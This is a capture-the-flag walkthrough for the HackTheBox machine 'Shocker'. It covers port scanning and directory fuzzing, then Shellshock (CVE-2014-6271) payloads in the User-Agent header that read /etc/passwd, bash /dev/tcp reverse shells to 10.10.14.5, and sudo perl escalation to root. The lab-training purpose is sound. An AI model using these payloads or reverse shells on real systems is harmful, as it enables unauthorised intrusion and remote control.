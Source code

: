 # Shocker
**Machine ip:** 10.10.10.56

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.56 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c189963f-1f1f-47e3-8143-3c3590c67d76)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6d921d69-f5a3-4b01-8abf-b2705292468b)

+ Navigate to `http://10.10.10.56/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53721866-1078-4c64-a195-7717114fc1a3)

+ Fuzzing:
```
feroxbuster -u http://10.10.10.56 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a9ac037-a36f-41a4-9778-b82bdc5dbbc4)

+ Check `/cgi-bin/user.sh`: `curl http://10.10.10.56/cgi-bin/user.sh`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/47df5820-0a25-4802-a8fb-a4a987b0ad8e)

+ [Shellshock vulnerability](https://github.com/opsxcq/exploit-CVE-2014-6271): [CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)
+ `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bc9402cf-aee0-410f-b78c-9ac7069a0151)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/15545c15-606a-4e45-8555-0d886bd63fc2)

+ Make a request `http://10.10.10.56/cgi-bin/user.sh` and capture the request on burp.
+ Send to repeater, and then trigger.
+ Use `() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'` payload on the user-agent.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d99b17d-fdb0-422b-bbf9-94be92bbb3b9)

Get a revershell: 
+ `nc -lnvp 4444`
+ `() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/33347aa2-8d52-4ecc-bdd1-eefabc6550f0)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a66c0774-5e34-43b9-a1e5-522fc5dd4399)

Alternatively, use `curl`: 
+ `curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://10.10.10.56/cgi-bin/user.sh`
+ `nc -lnvp 5555`
```
curl -A "() { :; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/10.10.14.5/5555 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/998447b4-78ef-40c0-929c-17cfbd01c157)

+ `sudo -l -l`
+ Check [gtfobins](https://gtfobins.github.io/) for [perl](https://gtfobins.github.io/gtfobins/perl/#sudo)
+ Get root.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c4f85588-6979-435d-b7ef-466ca66b7e4d)

# References & Alternatives:
+ https://0xdf.gitlab.io/2021/05/25/htb-shocker.html
+ https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b
+ https://corruptedprotocol.medium.com/shocker-hackthebox-htb-2cdac3cf3562
+ https://www.linkedin.com/pulse/hack-box-htb-shocker-walkthrough-abdulhakim-öner
